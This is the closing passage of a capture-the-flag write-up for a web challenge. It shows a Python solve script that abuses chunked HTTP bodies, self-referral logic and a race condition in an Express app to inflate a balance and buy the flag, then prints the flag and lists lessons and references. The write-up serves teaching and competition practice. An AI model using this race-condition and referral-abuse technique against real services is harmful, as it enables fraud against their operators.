 ```python
connection.send(
    (
        f'{len(code_chunk):X}\r\n'.encode() +
        code_chunk +
        b'\r\n' +
        b'0'
        b'\r\n' # end of the zero chunk
        b'\r\n' # end of the whole body (not necessary?)
    )
)

# Create an account that increase our original account's refer count
requests.post('http://localhost:3000/new', data={'refer':code})

# Increase the ref count by 1.5
for _ in range(70):
    requests.get('http://localhost:3000/cashout', cookies={'token': token})

# Buy the FLAG
flag = requests.get('http://localhost:3000/buy', cookies={'token': token}).text.split('<p>')[1].split('</p>')[0]
print(flag)
```

Flag is: `dice{007227589c05e703}`

![celebrating-flag](/blog/images/2025-04-15-11-14-30.png)

## Conclusions

What we learned in this challenge:

1. **HTTP request body handling is asynchronous**
2. **Race conditions in Express route handlers**
3. **Self-referral logic abuse**

## References

If you're interested to learn more, here is a list of useful references:

- [Event-driven programming - Wikipedia](https://en.wikipedia.org/wiki/Event-driven_programming)
- [Node.js Events API](https://nodejs.org/docs/latest/api/events.html#events_emitter_on_event_listener)
- [Understanding `request.on(...)` in Node.js – Stack Overflow](https://stackoverflow.com/questions/12892717/in-node-js-request-on-what-is-it-this-on)
- [MDN: `RegExp` - Regular Expressions in JavaScript](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/RegExp)
- [MDN: `Map.prototype.has`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Map/has)
- [MDN: `Map.prototype.get`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Map/get)
- [Node.js `http.ClientRequest` Class](https://nodejs.org/api/http.html#class-httpclientrequest)
- [YouTube: Node.js Stream Crash Course](https://www.youtube.com/watch?v=aTThXMRxmiE)
- [Difference between `res.end()` and `res.send()` – Stack Overflow](https://stackoverflow.com/questions/29555290/what-is-the-difference-between-res-end-and-res-send#49242271)
- [RFC 7230 – Hypertext Transfer Protocol (HTTP/1.1): Message Syntax and Routing](https://www.packetizer.com/rfc/rfc7230/)


